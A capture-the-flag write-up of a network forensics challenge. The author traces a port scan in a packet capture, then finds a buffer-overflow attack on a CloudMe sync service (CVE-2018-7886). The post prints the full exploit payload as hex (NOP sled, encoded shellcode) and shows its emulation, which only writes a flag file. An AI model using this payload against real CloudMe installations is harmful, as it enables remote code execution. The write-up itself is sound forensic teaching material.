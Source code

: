 ```yaml
---
title: 'FwordCTF 2021: BF'
date: 2021-08-29T04:00:00+00:00
author: Kris
layout: post
image: /images/2021/fword/bftitle.png
categories:
  - Write-Ups
  - Network Forensics
---
```

Good CTF this one that maybe I should have spent more time on but I was distracted with Wormcon and YauzaCTF on at the same time and building a SIFT box for disk forensics which turned out to be a huge time sink. Anyway on to the writeup!

#### <a name="bf"></a>BF - Forensics - 997 Points

This challenge reads:

```
Is forensics about tools? Prove it.

It seems forensics is not about tools : ). Here is a scenario to make things easier.

An internal attacker was able to gain access to the central server. Your mission is to understand what happened under the hood?

P.S. It is not a CTF challenge where you convert hex to string xD. Think logically.

(7 solves)
```

With the challenge we get this file:

* `bf.pcapng (47mb)`

This is network packet capture and its kinda a big file to just scroll through in Wireshark. In these situations I like to visualize as much about the various source / destination addresses as possible. I use the free version of [Network Miner](https://www.netresec.com/?page=NetworkMiner) to do it. The free version wont load a `PCAPNG` file so I first open it in Wireshark and then save it as a plain old stype `PCAP` file.

This is what I see when I load the PCAP version into Network Miner:

![network miner](/images/2021/fword/bf1.PNG)

The things that stick immediately out to me as interesting are:

- The IPs in the `192.168.196.0/24` subnet as these are on the local network.
- The `cloudme.com` stuff. I don't know what that is yet but I remember it standing out as different for some reason. We come back to it later.

I take a look for the Linux machine traffic first via Wireshark. Now I know what I'm looking for I can filter the traffic in Wireshark more easily. I use `ip.addr == 192.168.196.128` filter to look only at the Linux machine traffic. This is what I see:

![Linux machine traffic](/images/2021/fword/bf2.PNG)

To me this immediately looks like a port scan. This is categorised quickly because I see a lot of `SYN` packets on many destination ports and not much return except `RST` packets. From this we can surmise that the Linux machine may be hostile towards the `192.168.196.133` host. 

We can also determine that `192.168.196.133` was listening on a few open ports during this port scan. They were:

- `http - 80/tcp`
- `smb - 135/tcp, 139/tcp, 445/tcp`
- `unknown server - 8888/tcp`

Following the port scan the Linux machine followed up with only one full connection, a small burst of traffic to that unknown service on port `8888/tcp`:

![Port 8888 traffic](/images/2021/fword/bf3.PNG)

Googling for the port number I run into this blurb on the first Google [result](https://www.speedguide.net/port.php?port=8888):

> An issue was discovered in CloudMe 1.11.0. An unauthenticated local attacker that can connect to the "CloudMe Sync" client application listening on 127.0.0.1 port 8888 can send a malicious payload causing a buffer overflow condition. This will result in code execution, as demonstrated by a TCP reverse shell, or a crash. NOTE: this vulnerability exists because of an incomplete fix for CVE-2018-6892.
> References: [CVE-2018-7886], [EDB-44470]

This clicks in my mind as I remember there was traffic between one of the machines on the network and `cloudme.com`. I still dont really know what `cloudme` is but maybe this traffic is suspicious. Lets look at the payload in Wireshark:

![Buffer overflow](/images/2021/fword/bf4.PNG)

This looks a lot like a `NOP` sled to me given the x86 opcode for `NOP` is `0x90`. The question is, how to interpret what happened here as if this is shellcode, it may be encoded in almost any encoding mechanism. 

In my research on this problem, this is where I stumbled into `scdbg` [Shellcode debugger](http://sandsprite.com/blogs/index.php?uid=7&pid=152). This tool can take your binary shellcode and emulate it using libemu. Let's give it a try?

Firstly I copy / paste the hex values of the payload from Wireshark which gives me this:

```
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
9090909090909090909090909090909090909090909090909090909090909090909090909090909090
909090909090909090909090909090909090909090909090909090b542a86890909090909090909090
9090909090909090909090909090909090909090bb58eb6c6dd9ced97424f45a33c9b14283eafc315a
0f035a570999918f4f626a4f30ea8f7e7088c4d040da89dc2b8e395759074dd0d47160e14541e36194
96c35857eb029d8a065676c0b547f39c05e34f300e1007333f871c6a9f29f1069631162260c9ecd873
1b3d20df62f2d321a2340c54da47b16f193a6de5ba9ce65d671d2a3bec11874faa351683c041932207
c0e7008389bc2992771255c4d8cbf38ef4188ecc92df1c6bd0e01e7444892fff0bceaf2a6820fa77d8
a9a3ed59b453d89dc1d7e95d36c79b58724f7710eb3a77870c6f144a97bebeec329f6f6f9dfd0a0cb5
6ef594321e877cfeb421076605dcc408501149e1c560b867caf69d4348c7549bd310a6d3da6b99277b
a3163adcff698b9fdfb7cb394ca66ce8f85007d6004343434343434343434343434343434343434343
4343434343434343434343434343434343434343434343434343434343434343434343434343434343
43434343434343434343434343
```

Next I dump it into a file called `sc.hex` and use `unhex` to get the binary version:

```shell
$ cat sc.hex | unhex > sc.bin
$ file sc.bin
sc.bin: data
```

Then I copy it to my Windows machine and in a command prompt window run the `scdbg.exe`:

```shell
PS C:\scdbg> .\scdbg.exe -f sc.bin
Loaded 5a8 bytes from file sc.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4014f2  WinExec(cmd.exe /c "echo FwordCTF{f0r3n51c4_15n0t_4b0u7_70015_4f73r_411} > flag.txt")
4014fe  GetVersion()
401511  ExitProcess(0)

Stepcount 555154
```

And wow there's the flag. Encoded in some Windows shellcode thrown at the CloudMe service running on a Windows machine. Fun challenge!



